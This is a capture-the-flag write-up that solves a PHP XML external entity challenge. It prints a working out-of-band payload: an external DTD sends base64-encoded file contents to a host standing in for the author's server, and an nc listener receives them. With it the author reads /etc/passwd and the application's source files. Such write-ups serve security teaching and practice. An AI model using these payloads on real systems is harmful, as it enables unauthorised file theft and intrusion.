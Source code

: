 # Leakage problem

Leakage problem was a PHP based XML external entity (XXE) injection challenge. The website
has a single field which expects an email address:

<img width="725" alt="image" src="https://user-images.githubusercontent.com/6275775/231825682-9b661676-cd6f-4bb1-9be1-03560a21a030.png">

The first thing to notice is that the corresponding request contains an xml payload:

```
<?xml version="1.0"?>
<form>
<email>xxx@foo.com</email>
</form>
```

This immediately triggers the XXE attack vector. I have a small server running where
I can host payloads for such competitions, so after some trial and error I got to the
following setup. (I'll use example.com below instead of the real server.)


```
# https://example.com/foo.dtd
<!ENTITY % start "<!ENTITY &#x25; send SYSTEM 'http://example.com:11111/?%file;'>">%start;
```

and send this to the website:

```
<?xml version="1.0"?>
<!DOCTYPE form [ 
    <!ENTITY % remote SYSTEM "https://example.com/foo.dtd">
    <!ENTITY % file SYSTEM "php://filter/read=convert.base64-encode/resource=file:///etc/passwd">
     %remote;
     %send;
 ]>
<form>
<email>"</email>
</form>
```

I can listen to the incoming requests in my server with:
```
nc -l localhost 11111
```

This works fine, I get the `/etc/passwd` file. What else can we steal? I looked around the 
`/proc` folder in my linux machine for inspiration then tried things like `/proc/self/cmdline`,
`/proc/self/cwd/index.php` and `/proc/self/cwd/register.php`:

```php
# register.php
...

if( isset($creds->email)){
    $url = 'http://127.0.0.1:4200/register';
    $data = array('email' => $creds->email);
    $options = array(
        'http' => array(
            'header'  => "Content-type: application/x-www-form-urlencoded",
            'method'  => 'POST',
            'content' => "email=".$creds->email
        )
    );
    $context  = stream_context_create($options);
    $result = file_get_contents($url, false, $context);
    $success=True;
}
...
```

Ok, we have nice LFI, and it seems that the register.php forwards the request to an other service
that runs on port 4200.

I also checked `/proc/1/cmdline`:

```
/bin/sh -c apachectl start && node index.js
```

Maybe it is running in the `/app` directory, let's try `/app/index.js`:

```javascript
/* index.js */

const express = require("express");
const schema = require("./schema");
const resolvers = require("./resolvers");
const { graphqlHTTP } = require('express-graphql');
const {Users} = require('./users')
const bodyParser = require('body-parser')

const urlencodedParser = bodyParser.urlencoded({ extended: false })

const app = express();

app.use(
  "/graphql",
  graphqlHTTP({
    schema,
    rootValue: resolvers,
    graphiql: true
  })
);

app.post('/register',urlencodedParser,(req, res) =>{
  try{
    if(typeof req.body.email != 'undefined' && req.body.email){
      Users.push({email:req.body.email});
    }
  }catch(e){}
  return res.end();
});


const port = process.env.PORT || 4200;
app.listen(port);

console.log(`GraphQL Server is ready at http://localhost:4200/graphql`);
```

Bingo. We can now download the all the files mentioned in the import section (add .js to the 
filenames), soon we'll run into `data.js` which is kind of big and has some base64 encoded data in it. 
This is some weird picture of Shrek with our most wanted flag.

